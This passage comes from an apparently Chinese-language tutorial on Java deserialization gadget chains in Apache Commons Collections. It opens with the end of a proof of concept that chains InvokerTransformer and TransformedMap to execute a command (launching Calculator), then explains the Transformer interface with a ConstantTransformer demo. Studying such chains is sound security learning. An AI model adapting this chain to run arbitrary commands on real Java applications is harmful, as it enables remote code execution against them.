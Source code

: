```java
                new InvokerTransformer("exec", new Class[] {String.class}, new Object[] {"open -a Calculator"})
        };

        Transformer transformChain = new ChainedTransformer(transformers);

        //普通的Map
        Map mp=new HashMap();
        mp.put("sw", "demo");

        // 将普通的Map变成TransformedMap，并且指定变换方式为前面定义的恶意chain
        Map transformMap = TransformedMap.decorate(mp, transformChain, transformChain);

        // 修改TransformedMap中的一个值，成功执行命令
        Map.Entry entry=(Map.Entry) transformMap.entrySet().iterator().next();
        entry.setValue("test");
    }
}
```



### 三：transform

Transformer是一个用于规范类型转换行为的接口，实现该接口的类有：ChainedTransformer, CloneTransformer, ClosureTransformer, ConstantTransformer, ExceptionTransformer, FactoryTransformer, InstantiateTransformer, InvokerTransformer, MapTransformer, NOPTransformer, PredicateTransformer, StringValueTransformer, SwitchTransformer（3和4的部分实现类有所区别）

介绍一部分实现类（需要用到的类）

###### ConstantTransformer

作用：获取class对象

关键是调用transform对象

demo.java

```java
// 学习反序列化CC链调试程序

package com.company;

import org.apache.commons.collections.functors.ConstantTransformer;

public class Main {

    public static void main(String[] args) {
	// write your code here
        ConstantTransformer constantTransformer = new ConstantTransformer(Runtime.class);//通过ConstantTransformer这个方法来进行获取Runtime.class
        //相当于是你传入Runtime.class 下面就会返回这个类，传入什么返回什么
        Object transform = constantTransformer.transform("any");
        System.out.println(transform);
        System.out.println(transform.getClass().getName());

    }
}
```
